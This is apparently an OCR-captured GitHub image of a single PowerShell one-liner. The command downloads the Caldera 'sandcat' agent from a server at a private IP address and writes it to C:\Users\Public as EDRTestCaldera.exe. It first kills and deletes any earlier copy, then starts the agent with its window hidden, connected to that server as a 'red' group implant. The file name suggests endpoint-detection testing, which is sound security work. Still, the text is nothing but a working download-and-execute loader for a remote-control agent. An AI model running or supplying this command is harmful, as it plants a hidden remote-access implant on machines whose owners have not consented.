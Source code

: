 $server="http://10.99.156.120:8888";$url="$server/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$data=$wc.DownloadData($url);get-process | ? {$_.modules.filename -like "C:\Users\Public\EDRTestCaldera.exe"} | stop-process -f;rm -force "C:\Users\Public\EDRTestCaldera.exe" -ea ignore;[io.file]::WriteAllBytes("C:\Users\Public\EDRTestCaldera.exe",$data) | Out-Null;Start-Process -FilePath C:\Users\Public\EDRTestCaldera.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
